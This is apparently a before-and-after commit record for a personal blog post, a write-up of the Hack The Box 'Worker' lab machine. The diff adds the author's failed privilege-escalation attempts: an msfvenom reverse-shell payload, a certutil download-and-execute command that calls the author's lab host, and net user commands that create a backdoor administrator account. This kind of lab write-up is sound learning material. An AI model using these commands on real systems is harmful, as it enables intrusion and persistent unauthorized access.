

Before and after one commit to Cristi075/cristi075.github.io, a Jekyll site: the page built from _posts/2021-02-08-HTB Worker writeup.markdown, in a window 1280 px wide and 1400 px high, scrolled down 15406 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Adjust date to reflect date of publishing this (not when I started writing)

```diff
--- a/_posts/2021-01-09-HTB Worker writeup.markdown
+++ b/_posts/2021-02-08-HTB Worker writeup.markdown
@@ -201,6 +201,86 @@
 
 ### Many failed attempts to obtain a shell
 
+After the initial success in getting some code to be executed as SYSTEM, I tried to obtain a reverse shell using the same method.
+First, I generated a reverse shell by using msfvenom and hosted it on a web server.
+
+{%highlight bash%}
+msfvenom -p windows/shell/reverse_tcp lhost=10.10.14.113 lport=1234 -f exe > test.exe
+python3 -m http.server 8888
+{%endhighlight%}
+
+![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB/worker/reverse_shell_exe.png){: .center-image}
+
+Then, I added a new pipeline that would download the reverse shell executable from my server and then run it.
+For the download, I used certutil instead of cURL this time.
+{%highlight powershell%}
+certutil.exe -urlcache -split -f http://10.10.14.113/test.exe & test.exe
+{%endhighlight%}
+
+![Reverse shell pipeline]({{site.baseurl}}/assets/img/HTB/worker/preparing_root_shell.png){: .center-image}
+
+I opened a listener and ran the pipeline.
+The execution was successful (after some errors that were quite easy to fix).
+However, the connection closed quickly without me being able to run any commands.
+
+![Failure - the shell does not connect]({{site.baseurl}}/assets/img/HTB/worker/fail_shell.png){: .center-image}
+
+I tried using a more common port like 80 or 443 to avoid firewalls without any success.
+I also tried a bind shell but that didn't work either.
+
 ### More failed attempt to add a new user (and use it)
 
+Another common approach in this situation is to create a new user and grant it administrative privileges.
+In this case, the user will also need to be in the correct group to be able to use WinRM.
+
+So first, I created the user by running (this should be on a single line but I separated them for visibility)
+
+{%highlight powershell%}
+net user testuser001 5f4dcc3b5aa765d61d8327deb882cf99 /add &
+net localgroup Administrators testuser001 /add
+{%endhighlight%}
+
+![Trying to add a new user]({{site.baseurl}}/assets/img/HTB/worker/add_user.png){: .center-image}
+
+The hash used there is the MD5 for 'password'. I was not very creative at that moment.
+However, I found out that it was too long for Windows so it was rejected.
+
+![Error - password was too long]({{site.baseurl}}/assets/img/HTB/worker/error_long_pwd.png){: .center-image}
+
+I changed that to 'P@ssw0rd' and tried again
+
+{%highlight bash%}
+net user testuser001 P@ssw0rd /add & net localgroup Administrators testuser001 /add
+{%endhighlight%}
+
+![Output for adding a new user]({{site.baseurl}}/assets/img/HTB/worker/user_add.png){: .center-image}
+
+This time, the user was successfully added.
+However, I could not login using WinRM.
+At first, I noticed that I forgot to add it to the 'Remote Management Users' group. I did that by creating another pipeline and running
+
+{%highlight powershell%}
+net localgroup "Remote Management Users" testuser001 /add
+{%endhighlight%}
+
+I used the account that I already had (robisl) to check that the user is created and that it belongs to the correct groups.
+I tried adding it to all the groups that robisl was in but in the end I could not get this to work. The user was there but I could not use WinRM to authenticate using it.
+
 ### Giving up and getting the root flag
+
+After one or two hours of trying to obtain access using the method described above I gave up and just dumped the flag by running
+
+{%highlight powershell%}
+type C:\Users\Administrator\Desktop\root.txt
+{%endhighlight%}
+
+It's not as good, but it works.
+
+![Root flag]({{site.baseurl}}/assets/img/HTB/worker/root_flag.png){: .center-image}
+
+### After reading approaches used by others ...
+
+After this machine got retired I read some of the writeups published by others.
+For now, a common approach that I've seen is adding robisl to the Administrators group.
+I guess that works but I was on the public server when I did this and I wanted to avoid changing the way this machine works for other users.
+Also, it looks like even that method was not granting access everytime (ex: the user appeared to be in the Administrators group but it could not access the flag).
```
Also changed, not shown: other parts of _posts/2021-02-08-HTB Worker writeup.markdown (+1 -1 lines).
